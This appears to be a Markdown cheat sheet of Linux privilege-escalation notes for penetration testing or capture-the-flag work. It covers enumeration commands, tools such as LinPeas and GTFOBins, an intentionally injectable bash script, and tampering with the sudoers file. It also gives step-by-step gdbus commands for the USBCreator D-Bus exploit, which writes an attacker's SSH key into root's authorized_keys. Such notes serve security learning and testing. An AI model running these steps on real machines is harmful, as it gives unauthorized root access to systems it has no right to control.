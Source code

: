 # Linux
Everything to check when trying to become root


# Commands
- `sudo -l`
- `ps aux | grep <user>`
- `netstat -tulnp`
- `ls - ltrh` --> sort files by latest update (the one that is close to u by date, could be important)
- `kill -9 <pid>`


# Directories
- ~/
- ~/.ssh
- /tmp
- /dev/shm
- /opt
- /var *and all within*
- /usr
- /usr/local


# Tools
- LinPeas
- pspy64
- [GTFOBins](https://gtfobins.github.io/) (online)


# DIR / file copy (symlink)
If there's a DIR or a file that is being copied one can either create a symlink or a direct spoof of the actual file so that the copied item will be spoofed and have the data the attacker wants.


# Bash file command execute
If a file executes any variable, one might be able to write payload to it.

## Example
```bash
#!/bin/bash

echo -e "Input:\t"
read myvar

/bin/bash -c $myvar
```
Note: Here one can insert malicious code to be executed by the program.



# Binaries (file read and write)
- If a gven binary allows you to edit files and one's not yet root, the attacker can try to edit the **sudoers** file and put the user in there, hence gaining root privs.      
- Also, maybe try copying the original file and add yourself to it and replace the original file with the altered version.



# Processes / Buses

## Monitor buses
`busctl` can be used to monitor and examine the D-Bus.

## Vulnerable interfaces

### USBCreator D-Bus | com.ubuntu.USBCreator
#### Steps to exploit
```bash

remote-machine> ps auwx | grep usb

remote-machine> echo "attack-machine id_rsa.pub key" > ~/authorized_keys

remote-machine> gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/remote/authorized_keys /root/.ssh/authorized_keys true

attack-machine> ssh -i id_rsa root@10.10.10.10
```
Help: [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)


# Web technologies
Below you'll find a list of vulnerabilities in web technologies that will allow one to escalate privileges on a machine.

- [Redis - CVE-2022-0543](../Known_vulnerabilities/web.md#redis-lua-sandbox-escape-vulnerability-cve-2022-0543)
- [Flask (Jinja 2) RCE](../Known_vulnerabilities/web.md#flask-jinja-2-rce)